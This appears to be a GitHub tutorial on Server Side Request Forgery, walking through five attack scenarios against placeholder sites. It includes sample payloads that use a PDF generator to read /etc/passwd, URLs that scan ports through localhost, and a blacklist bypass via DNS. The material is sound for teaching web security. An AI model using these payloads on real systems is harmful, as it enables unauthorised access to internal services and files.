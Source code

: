 Server Side Request Forgery
==========
SSRF is a web security vulnerability in which an attacker trick a web application server to fetch content from internally hosted web server
or attack can perform ip& portscanning.

<h3>Case 1: Normal SSRF scenario</h3>
In this case, web application is processing HTTP URL through GET/POST parameter and fetching the HTTP response from specified URL.
For exmple:

      http://b0x.com/index.php?wg=http://remote_host/image.jpg
An attacker can pass the arbitrary URLs such as internal hosts IP. 
For example:

      http://b0x.com/index.php?wg=http://internal_host/admin/
      
<h3>Case 2: File read functionality</h3>
In this case, web application is reading file saved on the server.
For eaxmple:

      http://b0x.com/index.php?read=log.txt
In this case, if web application is passing the user supplied data directly to a function which can read files not just from local system but also from HTTP URL, an attacker can perform SSRF.
For example:

      http://b0x.com/index.php?read=http://internal_host/admin/
      
<h3>Case 3: Dns Spoofing</h3>
In this case,The web application has funcionality which allow user to fetch data from remote URL. User need to specify the remote URL with any IP or domain name.
For example:
           
                   http://web.com/index.php?loadfile=http://127.0.0.1/b0x.txt 

The web application perform check if user has specified the input as "localhost", "Internal IPs" or "Reserved IPs". If domain/IP specified by user is blacklisted, script will not fetch the content and stop processing.
 
 so when the web app is blacklisting the reserved and internal IPs then we can purchase a domain and bind that domain with the reserved IP
 or internal IPs and can trick the web application an perform SSRF.
 For example:
                
                http://web.com/index.php?loadfile=http://owndomain/b0x.txt

<h3>Case 4:HTML to PDF generater script</h3>
In this case, This is the scenrio of the web app which is using HTML to PDF generator script and passing untrusted user supplied data to HTML file which is processed by HTML to PDF generator.


In this case, if attacker supplied data is not getting senitized or filtered before placing it to HTML code, attacker can trick "HTML to PDF generator" software to access the internal Hosts/domains.
When HTML code will be processed by the "HTML to PDF generator", HTML code will be evaluated to corresponding representation of that HTML code in web browser. 



For example:
            
                                          Payloads

         To grab the data from HTTP based URL, use below mentioned style payload

                  <link rel=attachment href="http://web_URL">
                  <link rel=attachment href="http://localhost/admin.php">
                  
         To grab the data from internal file system, use below mentioned style payload

                  <link rel=attachment href="file://internal_file_path">
                  <link rel=attachment href="file:///etc/passwd">

                    

<h3>Case 5:PORT And IP Scaning</h3>
In this case an attacker is able to scan the server for its open ports. This is usually done by using the loopback interface on the server (127.0.0.1 or localhost) with the addition of the port that is being scanned (21, 22, 25…).

Some examples are:

             https://b0x.com/page?url=http://localhost:22/
             https://b0x.com/page?url=http://127.0.0.1:25/
             https://b0x.com/page?url=http://127.0.0.1:3389/
